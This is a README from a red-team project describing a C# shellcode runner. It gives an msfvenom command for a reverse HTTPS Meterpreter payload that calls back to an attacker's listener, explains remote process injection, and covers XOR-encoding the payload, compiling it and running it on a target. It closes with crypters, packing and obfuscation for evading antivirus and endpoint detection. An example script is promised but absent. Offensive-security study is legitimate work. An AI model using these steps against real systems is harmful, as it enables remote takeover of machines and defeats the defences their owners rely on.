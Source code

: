 # Process Injection - Shellcode Runner with XOR Encoding

## Overview

This project demonstrates how to execute XOR-encoded shellcode using C#. It outlines the process of generating shellcode with `msfvenom`, encoding it with a custom XOR key, and executing it in memory to avoid static detection. The purpose is to help red teamers and penetration testers understand basic obfuscation and runtime execution techniques, while keeping an eye on evasion strategies.

## Key Features
- Executes XOR-encoded shellcode in memory.
- Uses a customizable XOR key for encoding.
- Demonstrates basic payload obfuscation techniques.
- Bypasses static detection with encoded payloads.
- Allows further customization using crypters for runtime obfuscation.

## **Key Injection Mechanism**
Opening the Target Process:

The target process is opened using OpenProcess with the All access flag.
Memory Allocation:

The VirtualAllocEx function allocates memory in the remote process (the target of injection).
Writing Payload:

The shellcode (malicious code) is written into the allocated memory space of the target process using WriteProcessMemory.
Executing Payload:

A new thread is created within the target process using CreateRemoteThread, which points to the shellcode's memory location to execute it.
This is typical of many malware or exploit delivery mechanisms, where the payload (in this case, msfvenom generated shellcode) is remotely injected and executed to compromise a target system.
## Steps to Use

### 1. Generate XOR-Encoded Shellcode

Use `msfvenom` to generate the shellcode. This example uses a reverse HTTPS Meterpreter payload, but any payload can be encoded:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=YOUR_PORT EXITFUNC=thread -f csharp
```

This command generates the raw shellcode in C# format, which will then be XOR-encoded.

### 2. XOR Encoding Process

To enhance evasion and bypass static detection by antivirus solutions, XOR encoding is already applied to the shellcode. Use a simple XOR encoding script to modify the payload before inserting it into the C# shellcode runner. A custom key such as `0xfa` is used for this encoding. Here's an example Python script to XOR-encode the shellcode:
Also, the same rule should be applied for the encryption and the decrption of the shellcode during the runtime process. The output from this script (Helper) is your XOR-encoded payload, which you will then insert into the shellcode runner.

### 3. Compile and Execute

After placing the encoded payload into the shellcode runner, compile the code using the .NET CLI or Visual Studio. Use the following command to compile from the command line:

```bash
csc runner.cs
```

This produces an executable (`runner.exe`) that will execute the XOR-decoded shellcode in memory.

### 4. Run the Executable

Once compiled, run the executable on the target machine:

```bash
./runner.exe
```

Ensure the payload is correctly configured for your listener (e.g., a Meterpreter listener on your attack machine).

## Improving Evasion

### Crypters

To enhance the evasion capability of this shellcode runner, crypters can be employed. Crypters encrypt or obfuscate executables to help them bypass antivirus and endpoint detection systems.

#### What is a Crypter?

A crypter modifies the binary or the shellcode itself, using encryption or obfuscation techniques to make it undetectable by static analysis tools. At runtime, the crypter decrypts or decodes the payload, allowing it to execute without triggering alerts.

### Crypter Tools

- **Veil Framework**: A popular tool for generating payloads that bypass antivirus detection.
- **Hyperion**: An open-source crypter that applies encryption at runtime to evade detection.
- **Custom Crypters**: For maximum evasion, building a custom crypter with unique algorithms can provide better results.

### Other Evasion Techniques

1. **Obfuscation**: Randomizing variable names, altering code structure, or introducing junk code can help avoid static analysis detection.
2. **Dynamic Encoding**: Encoding and decoding the payload dynamically at runtime ensures the code remains hidden from static scans.
3. **Packing**: Using packers (such as UPX) compresses and obscures the executable, adding another layer of protection against analysis.

## Legal Disclaimer

This project is intended for educational purposes only. Always ensure you have proper authorization before using any tools or techniques demonstrated here on systems or networks. Unauthorized access or testing of systems without consent is illegal.

## Conclusion

This shellcode runner serves as a basic framework for red teamers to understand the process of obfuscating and executing payloads in memory. It is intended for use in ethical hacking scenarios where stealth and evasion are critical. Further enhancements like crypters and dynamic obfuscation can be applied to improve its ability to bypass advanced security mechanisms.

---

